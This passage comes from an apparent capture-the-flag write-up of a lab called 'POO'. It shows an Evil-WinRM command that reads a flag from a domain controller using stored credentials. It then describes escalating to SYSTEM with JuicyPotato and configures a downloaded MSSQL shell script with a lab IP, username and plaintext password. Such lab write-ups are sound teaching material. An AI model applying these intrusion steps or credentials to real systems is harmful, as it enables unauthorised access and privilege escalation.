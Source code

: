 
        Directory: C:\users\mr3ks\desktop


    Mode                LastWriteTime         Length Name                                                                                                 PSComputerName
    ----                -------------         ------ ----                                                                                                 --------------
    -a----        3/26/2018   5:47 PM             37 flag.txt                                                                                             dc


    *Evil-WinRM* PS C:\programdata> invoke-command -computername dc -scriptblock { gc C:\users\mr3ks\desktop\flag.txt } -credential $cred
    POO{1196ef8b************************}



## Beyond Root - Long Way to Administrator Shell

Once I had `xm_cmdshell` in MSSQL, I wandered a good bit before finding
that I could WinRM with the administrator creds. The path I took
involved using JuicyPotato to get SYSTEM and then creating an admin
account.

### Command Shell Upgrade

Executing commands in `mssqlclient` isn't too bad - I can up arrow,
change out the one line in quotes. Still, having something that acts
like a shell is much nicer, and as enumeration wasn't showing me much at
first, I wanted an upgrade. Googling for "python mssql shell", the first
result was [MSSQL shell with file upload
capability](https://alamot.github.io/mssql_shell/). I'll download this,
and update the section the defines the connection:



    MSSQL_SERVER="10.13.38.11"
    MSSQL_USERNAME = "df"
    MSSQL_PASSWORD = "qwe123QWE!@#"



The only other change I made was to the prompt. The original shell will
print:



    CMD MSSQL$POO_PUBLIC@COMPATIBILITY C:\WINDOWS\system32>



That's more text than I want, especially to go into a blog post where
the commands will flow off the screen. So I updated it:



    #cmd = input("CMD " + username+"@"+computername+" "+cwd+"> ").rstrip("\n").replace("'", "''")
    cmd = input(cwd+"> ").rstrip("\n").replace("'", "''")


